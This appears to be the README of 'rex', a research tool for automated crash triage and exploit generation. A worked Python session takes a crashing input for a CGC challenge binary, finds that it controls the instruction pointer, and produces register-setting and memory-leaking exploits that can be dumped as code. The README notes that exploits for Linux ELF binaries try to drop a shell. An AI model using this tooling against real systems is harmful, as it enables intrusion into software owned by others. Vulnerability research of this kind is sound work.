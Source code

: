 ### Rex

At the moment rex offers a couple of features, crash triaging, crash exploration, and exploitation for certain kinds of crashes.

In the example below, we take a crashing input for `legit_00003` discovered by AFL. The vulnerability is a simple buffer overflow on the stack, however, before the vulnerable function returns it calls memcpy with a destination parameter which was overwritten during the stack smash.
While rex doesn't know how to exploit an arbitrary memcpy call (yet), it can be told to explore the crash until it finds an exploitation primitive which it knows how to exploit.

Exploit objects can take a crashing input and will attempt to turn it into an exploit which can set every register and leak data from an arbitrary address.

```python
# triage a crash
>>> crash = rex.Crash("./legit_00003", "\x00\x0b1\xc1\x00\x0c\xeb\xe4\xf1\xf1\x14\r\rM\r\xf3\x1b\r\r\r~\x7f\x1b\xe3\x0c`_222\r\rM\r\xf3\x1b\r\x7f\x002\x7f~\x7f\xe2\xff\x7f\xff\xff\x8b\xc7\xc9\x83\x8b\x0c\xeb\x80\x002\xac\xe2\xff\xff\x00t\x8bt\x8bt_o_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff_k_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff\x00t\x8bt\x8b\xac\xf1\x83\xc2t~c\x00\x00\x00~~\x7f\xe2\xff\xff\x00t\x9e\xac\xe2\xf1\xf2@\x83\xc3t")
>>> crash.crash_types
['write_what_where']
>>> crash.explorable()
True
# explore the crash by setting segfaulting pointers to sane values and re-tracing
>>> crash.explore()
# now we can see that we control instruction pointer
>>> crash.crash_type
'ip_overwrite'
# generate exploits based off of this crash
>>> arsenal = crash.exploit()
# we generated a type 1 POV for every register
>>> len(arsenal.register_setters) # we generate one circumstantial register setter, one shellcode register setter
2
# and one Type 2 which can leak arbitrary memory
>>> len(arsenal.leakers)
1
# exploits are graded based on reliability, and what kind of defenses they can
# bypass, the two best exploits are put into the 'best_type1' and 'best_type2' attributes
>>> arsenal.best_type1.register
'ebp'
# exploits can be dumped in C, Python, or as a compiled POV
>>> arsenal.best_type2.dump_c('legit3_x.c')
>>> arsenal.best_type2.dump_python('legit3_x.py')
>>> arsenal.best_type2.dump_binary('legit3_x.pov')
# also POVs can be tested against a simulation of the CGC architecture
>>> arsenal.best_type1.test_binary()
True
```

Basic support of Linux ELF binaries also exists, exploits generated for ELF binaries will attempt to drop a shell.
